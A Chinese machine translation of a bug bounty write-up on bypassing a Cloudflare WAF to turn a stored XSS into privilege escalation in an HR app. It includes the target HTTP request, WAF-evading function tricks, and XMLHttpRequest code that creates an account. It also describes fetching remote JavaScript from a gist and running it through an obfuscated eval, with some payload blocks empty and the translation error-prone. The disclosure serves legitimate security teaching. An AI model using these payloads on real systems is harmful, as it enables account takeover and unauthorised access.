


# 绕过 WAF 将储存的 XSS 武器化

> 原文：<https://infosecwriteups.com/bypassing-waf-to-weaponize-a-stored-xss-ff9963c421ee?source=collection_archive---------0----------------------->

在测试一个 bug bounty 程序的时候，我注意到我的`<u>html injection</u>`有效载荷在喷洒到应用程序中反映的每一个字段的时候都在工作。然后，我第一次想用``得到提醒的冲动失败了。`Alert()`被 cloudflare WAF 挡住了。于是，我用了`console.log()`，它被接受并执行。当我必须构建一个 PoC 来显示这个 XSS 会影响其他用户时，问题就出现了。

## 关于目标

这个应用程序是为人力资源部门管理雇员的养老金而构建的。员工自己无法访问该应用程序。唯一的授权差异发生在主 HR 帐户和子 HR 帐户之间。

子 HR 账户存在 2 个权限级别。

```
1\. Read-Only Access
2\. Standard Access
```

具有标准访问权限的子 HR 帐户可以创建、编辑和删除员工记录。但是，它不能创建新的子 HR 帐户。只有 main-HR 帐户才允许这样做。

因此，在我们的攻击场景中，我们有一个下级 HR 帐户。我们将员工姓名编辑到 XSS 有效载荷中，该载荷将被存储。我们的受害者，一个 main-HR 帐户访问了`Income Decl.`选项卡，导致我们的有效负载的执行。其向`/hrusers/add`发出`POST`请求以创建新的子 HR 账户。

这是 XSS 被处决的那一页。根据他们的要求，公司的信息被修改了。



# 剥削

`POST /hrusers/add`其核心最初看起来是这样的(为了增加可读性，删除了一些标题):

```
POST /hrusers/add HTTP/1.1
Host: www.app.tld
Cookie: auth=secret;
Content-Length: 976
Origin: https://www.app.tld
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarycItg8YvLxAC5Af6g
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://www.app.tld/
Connection: close------WebKitFormBoundarycItg8YvLxAC5Af6g
Content-Disposition: form-data; name="_method"POST
------WebKitFormBoundarycItg8YvLxAC5Af6g
Content-Disposition: form-data; name="data[User][first_name]"john
------WebKitFormBoundarycItg8YvLxAC5Af6g
Content-Disposition: form-data; name="data[User][last_name]"doe
------WebKitFormBoundarycItg8YvLxAC5Af6g
Content-Disposition: form-data; name="data[User][email_address]"ne555+blog@wearehackerone.com
------WebKitFormBoundarycItg8YvLxAC5Af6g
Content-Disposition: form-data; name="data[User][username]"ne555-blog
------WebKitFormBoundarycItg8YvLxAC5Af6g
Content-Disposition: form-data; name="data[User][password]"testpass123!
------WebKitFormBoundarycItg8YvLxAC5Af6g
Content-Disposition: form-data; name="data[User][conf_password]"testpass123!
------WebKitFormBoundarycItg8YvLxAC5Af6g
Content-Disposition: form-data; name="data[User][role_type]"0
------WebKitFormBoundarycItg8YvLxAC5Af6g--
```

`302 Found`请求成功后返回。

1.  我尝试的第一件事是使用`script`标签，但它被 cloudflare 阻止了。



2.我试图绕过解析，但是没有什么好的结果。所以我需要在事件处理程序中构建有效负载。

3.我试着创造了一个`XMLHttpRequest`。然而，它也被阻止了。
``

4.在制作了几个有效载荷之后，我意识到这种开发不会像我想象的那么简单。CSP 规则允许我从任何域获取数据。因此，如果我将恶意 javascript 存储在其他地方，并在运行时取出，WAF 将无法检测到它。

5.`fetch()`被屏蔽。所以我开始寻找编码的方法。很早就想用 [aurebesh.js](https://aem1k.com/aurebesh.js/) 了。这似乎是一个很好的用例。这是全部有效载荷:

```

```

6.WAF 没有阻止它，并弹出一个警报。也许我可以这样编码`fetch()`。我试过 jsfuck.com，但是 WAF 挡住了我的有效载荷。这很奇怪。也许我可以编写自己的 aurebesh.js 版本，让我可以对任何代码使用任何字母。

7.在从事这项工作一段时间后，很明显我的 JS 知识远远低于标准。我需要找到其他方法绕过这个晶片。

8. [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) 回购真的很有帮助，我发现`top["al"+"ert"](1);` payload 确实起作用了。我可以偷偷加入像这样危险的函数。

9.如果我能把`POST /hrusers/add`请求中的`multipart/form-data`变成`application/x-www-form-urlencoded`，我就不用处理边界了。我这样做了，尽管 Burp Suite 的`change body encoding`功能和服务器接受了请求。

10.我用下面的代码创建了一个要点。

```
body = `_method=POST&data%5bUser%5d%5bfirst_name%5d=john&data%5bUser%5d%5blast_name%5d=doe&data%5bUser%5d%5bemail_address%5d=ne555%2bblog@wearehackerone.com&data%5bUser%5d%5busername%5d=ne555-blog&data%5bUser%5d%5bpassword%5d=testpass123%21&data%5bUser%5d%5bconf_password%5d=testpass123%21&data%5bUser%5d%5brole_type%5d=0`;
poc = new XMLHttpRequest();
poc.open(`POST`,`/hrusers/add`, true);
poc.setRequestHeader(`Content-Type`, `application/x-www-form-urlencoded`);
poc.withCredentials = true;
poc.send(body);
```

11.现在我必须获取这个 javascript 并使用`eval()`执行它。有效载荷的创建是有问题的，因为它在一个事件处理器内部，并且由许多层组成。gist 中的所有字符串都必须使用撇号创建。

12.最终有效载荷:

```
response.text()).then((body) =>{top[`ev`+`al`](body);})">
```

13.现在，当受害者访问该页面时，会创建一个新的子 HR 帐户。

## 结论

事实证明，不仅仅是证明 XSS 在工作，还真的很有教育意义。这个漏洞存在于一个私人的 bug 赏金程序中。所以，它得到了奖励，这篇博文被公司允许了。